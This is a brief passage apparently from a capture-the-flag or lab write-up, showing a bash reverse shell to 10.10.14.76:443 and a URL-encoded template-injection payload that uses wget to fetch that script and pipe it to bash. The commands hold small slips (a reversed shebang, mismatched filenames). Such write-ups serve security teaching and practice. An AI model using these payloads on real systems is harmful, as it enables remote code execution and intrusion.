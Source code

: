 ![](./IMG/27.png)

> Start to create a reverse shell
> Create a reverse shell file 

```
!#/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.76/443 0>&1
```

![](./IMG/28.png)

> Download the reverse shell file to target 

```
sdf%0A<%25%3d%20`wget%20http://10.10.14.76/rev1.sj%20-O%20/tmp/rev1.sh|bash`%20%25>
```
